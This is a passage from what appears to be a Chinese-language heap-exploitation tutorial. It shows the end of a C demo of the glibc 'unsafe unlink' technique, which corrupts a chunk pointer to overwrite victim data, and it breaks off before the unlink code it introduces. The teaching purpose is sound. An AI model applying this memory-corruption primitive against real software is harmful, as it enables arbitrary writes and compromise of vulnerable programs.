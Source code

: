 ```C
    // This results in chunk1 pointer pointing to chunk1 - 3
    // i.e. chunk1[3] now contains chunk1 itself.
    // We then make chunk1 point to some victim's data
    free(chunk2);
    printf("%p\n", chunk1);
    printf("%x\n", chunk1[3]);

    chunk1[3] = (unsigned long long)data;

    strcpy(data, "Victim's data");

    // Overwrite victim's data using chunk1
    chunk1[0] = 0x002164656b636168LL;

    printf("%s\n", data);

    return 0;
}
```

* 原理分析

free() 的流程如下

![free_algorithm](../pictures/heap/unsafe_unlink/free_algorithm.png)

unlink代码如下
